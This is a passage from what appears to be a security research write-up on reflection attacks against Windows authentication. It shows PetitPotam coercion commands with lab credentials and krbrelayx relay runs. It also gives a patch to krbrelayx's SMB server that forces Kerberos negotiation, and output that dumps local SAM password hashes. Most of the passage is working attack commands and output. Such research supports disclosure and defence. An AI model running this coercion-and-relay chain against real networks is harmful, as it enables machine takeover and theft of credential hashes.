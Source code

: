 After this discovery, we wondered if Kerberos was also affected. Kerberos has no protection against reflection attacks. The same attack was performed by replacing `ntlmrelayx.py` with `krbrelayx.py`:

```bash
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[-] No negTokenInit sent by client
```

Even though a DNS record was supplied as the listener host and `krbrelayx.py` advertises Kerberos, **NTLM authentication was negotiated**. This is because if the client detects the target is the current machine, NTLM is used for local authentication.

**To enforce Kerberos:**  
Remove the NTLM mechtype from the advertised types in `krbrelayx.py`:

```python
# File: krbrelayx/lib/servers/smbrelayserver.py
blob['tokenOid'] = '1.3.6.1.5.5.2'
blob['innerContextToken']['mechTypes'].extend([
        MechType(TypesMech['KRB5 - Kerberos 5']),
        MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
        # MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])  # Remove this line
])
```

**After patching:**
```bash
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2969778d862ac2a6df59a263a16adbd1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04e87eb3e0d31f79a461386dfe9c7500:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: srv1.asgard.local
```
